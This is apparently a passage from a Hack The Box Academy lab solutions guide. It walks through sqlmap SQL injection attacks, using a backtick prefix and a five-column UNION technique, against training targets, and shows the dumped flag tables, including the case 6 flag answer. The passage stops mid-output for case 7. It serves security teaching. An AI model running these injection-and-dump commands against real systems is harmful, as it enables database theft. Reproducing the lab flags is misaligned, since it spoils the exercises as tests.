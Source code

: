 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case6.php?col=id' --prefix='\`)' --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+

<SNIP>
```

Answer: `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`

# Attack Tuning

## Question 3

### "What's the contents of table flag7? (Case #7)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #7" to notice that they need to exploit the `GET` parameter `id` by using the UNION query-based technique (for a total number of five columns):

![[HTB Solutions/CBBH/z. images/77b3e79f56d8d610db3e34e835f602bf_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case7.php?id=1' -T flag7 --technique=U --union-cols=5 --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case7.php?id=1' --technique=U --union-cols=5 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag7
[1 entry]
+----+-----------------------+
```